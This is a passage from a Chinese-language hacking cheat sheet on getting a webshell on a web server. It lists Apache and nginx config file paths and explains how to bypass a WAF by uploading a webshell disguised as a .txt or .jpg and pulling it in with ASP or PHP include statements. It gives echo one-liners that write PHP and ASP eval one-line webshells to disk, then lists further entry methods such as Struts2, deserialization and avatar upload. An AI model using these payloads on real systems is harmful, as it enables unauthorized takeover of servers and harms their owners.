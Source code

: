 /usr/local/apache/conf/httpd.conf

/usr/local/httpd/conf/httpd.conf

/etc/httpd/conf/httpd.conf

/usr/local/apache2/conf/httpd.conf

ngnix

/usr/local/nginx/conf/nginx.conf

phpmyadmin一般在网站根目录下

         当找不到配置文件时，可以读大文件，由于文件太大会报错，有可能会报出phpmyadmin的路径。
    
        

### 11、文件包含拿shell 多用于上传大马

先将webshell改为txt文件上传，然后上传一个脚本文件包含该txt文件，可绕过waf拿shell

asp包含

             1.<!--#include file=”123.jpg”-->
    
             2.调用的文件必须和被调用的文件在同一目录，否则找不到
    
             3.如果找不到，用下面的语句
    
             <--#include virtual=”文件所在目录/123.jpg”-->
    
        

php包含

         <?php include(“123.jpg”)?>
    
        

### 12、命令执行拿shell

         echo ^<^?php @eval($_POST[‘abc’]);?^>^ >c:\1.php
    
         echo ^<^?php @eval($_POST[‘abc’]);?^>^ >c:\1.php
    
         ^<^%eval request(“abc”)%^>^ >c:\1.php
    
        

## 二、普通用户（前台）拿shell

         0day拿shell
    
         IIS写权限拿shell
    
         命令执行拿shell
    
         通过注入漏洞拿shell
    
         前台用户头像上传拿shell
    
         strusts2拿shell
    
         java反序列拿shell
    
        

或者常见CMS拿shell---------直接百度

